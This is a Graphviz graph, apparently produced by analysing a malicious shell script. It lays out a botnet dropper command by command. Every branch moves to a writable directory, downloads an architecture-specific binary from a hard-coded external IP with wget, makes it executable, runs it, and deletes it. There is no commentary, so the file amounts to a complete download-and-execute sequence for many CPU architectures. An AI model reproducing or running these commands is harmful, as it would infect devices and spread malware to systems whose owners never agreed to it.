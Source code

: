 digraph {
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 10 [label="||,"];
10 [label="rm -rf arc* "];
10 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 22 [label="||,"];
22 [label="wget http://5.189.171.210/arcms "];
22 -> 24 [label=";,"];
24 [label="chmod +x arcms "];
24 -> 26 [label=";,"];
26 [label="./arcms "];
26 -> 28 [label=";,"];
28 [label="rm -rf arcms "];
28 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 40 [label="||,"];
40 [label="wget http://5.189.171.210/arcml "];
40 -> 42 [label=";,"];
42 [label="chmod +x arcml "];
42 -> 44 [label=";,"];
44 [label="./arcml "];
44 -> 46 [label=";,"];
46 [label="rm -rf arcml "];
46 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 58 [label="||,"];
58 [label="wget http://5.189.171.210/arc4t "];
58 -> 60 [label=";,"];
60 [label="chmod +x arc4t "];
60 -> 62 [label=";,"];
62 [label="./arc4t "];
62 -> 64 [label=";,"];
64 [label="rm -rf arc4t "];
64 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 76 [label="||,"];
76 [label="wget http://5.189.171.210/arc4l "];
76 -> 78 [label=";,"];
78 [label="chmod +x arc4l "];
78 -> 80 [label=";,"];
80 [label="./arc4l "];
80 -> 82 [label=";,"];
82 [label="rm -rf arc4l "];
82 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 94 [label="||,"];
94 [label="wget http://5.189.171.210/arc5l "];
94 -> 96 [label=";,"];
96 [label="chmod +x arc5l "];
96 -> 98 [label=";,"];
98 [label="./arc5l "];
98 -> 100 [label=";,"];
100 [label="rm -rf arc5l "];
100 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 112 [label="||,"];
112 [label="wget http://5.189.171.210/arc6l "];
112 -> 114 [label=";,"];
114 [label="chmod +x arc6l "];
114 -> 116 [label=";,"];
116 [label="./arc6l "];
116 -> 118 [label=";,"];
118 [label="rm -rf arc6l "];
118 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 130 [label="||,"];
130 [label="wget http://5.189.171.210/arc7l "];
130 -> 132 [label=";,"];
132 [label="chmod +x arc7l "];
132 -> 134 [label=";,"];
134 [label="./arc7l "];
134 -> 136 [label=";,"];
136 [label="rm -rf arc7l "];
136 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 148 [label="||,"];
148 [label="wget http://5.189.171.210/arcsh "];
148 -> 150 [label=";,"];
150 [label="chmod +x arcsh "];
150 -> 152 [label=";,"];
152 [label="./arcsh "];
152 -> 154 [label=";,"];
154 [label="rm -rf arcsh "];
154 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 166 [label="||,"];
166 [label="wget http://5.189.171.210/arcpc "];
166 -> 168 [label=";,"];
168 [label="chmod +x arcpc "];
168 -> 170 [label=";,"];
170 [label="./arcpc "];
170 -> 172 [label=";,"];
172 [label="rm -rf arcpc "];
172 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 184 [label="||,"];
184 [label="wget http://5.189.171.210/arc440 "];
184 -> 186 [label=";,"];
186 [label="chmod +x arc440 "];
186 -> 188 [label=";,"];
188 [label="./arc440 "];
188 -> 190 [label=";,"];
190 [label="rm -rf arc440 "];
190 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 202 [label="||,"];
202 [label="wget http://5.189.171.210/arcm68 "];
202 -> 204 [label=";,"];
204 [label="chmod +x arcm68 "];
204 -> 206 [label=";,"];
206 [label="./arcm68 "];
206 -> 208 [label=";,"];
208 [label="rm -rf arcm68 "];
208 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 220 [label="||,"];
220 [label="wget http://5.189.171.210/arcsprc "];
220 -> 222 [label=";,"];
222 [label="chmod +x arcsprc "];
222 -> 224 [label=";,"];
224 [label="./arcsprc "];
224 -> 226 [label=";,"];
226 [label="rm -rf arcsprc "];
226 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 238 [label="||,"];
238 [label="wget http://5.189.171.210/arc32 "];
238 -> 240 [label=";,"];
240 [label="chmod +x arc32 "];
240 -> 242 [label=";,"];
242 [label="./arc32 "];
242 -> 244 [label=";,"];
244 [label="rm -rf arc32 "];
244 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 256 [label="||,"];
256 [label="wget http://5.189.171.210/arc38 "];
256 -> 258 [label=";,"];
258 [label="chmod +x arc38 "];
258 -> 260 [label=";,"];
260 [label="./arc38 "];
260 -> 262 [label=";,"];
262 [label="rm -rf arc38 "];
262 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 274 [label="||,"];
274 [label="wget http://5.189.171.210/arc48 "];
274 -> 276 [label=";,"];
276 [label="chmod +x arc48 "];
276 -> 278 [label=";,"];
278 [label="./arc48 "];
278 -> 280 [label=";,"];
280 [label="rm -rf arc48 "];
280 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 292 [label="||,"];
292 [label="wget http://5.189.171.210/arc58 "];
292 -> 294 [label=";,"];
294 [label="chmod +x arc58 "];
294 -> 296 [label=";,"];
296 [label="./arc58 "];
296 -> 298 [label=";,"];
298 [label="rm -rf arc58 "];
298 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 310 [label="||,"];
310 [label="wget http://5.189.171.210/arc64 "];
310 -> 312 [label=";,"];
312 [label="chmod +x arc64 "];
312 -> 314 [label=";,"];
314 [label="./arc64 "];
314 -> 316 [label=";,"];
316 [label="rm -rf arc64 "];
316 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 328 [label="||,"];
328 [label="wget http://5.189.171.210/arc68 "];
328 -> 330 [label=";,"];
330 [label="chmod +x arc68 "];
330 -> 332 [label=";,"];
332 [label="./arc68 "];
332 -> 334 [label=";,"];
334 [label="rm -rf arc68 "];
334 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 345 [label="||,"];
}
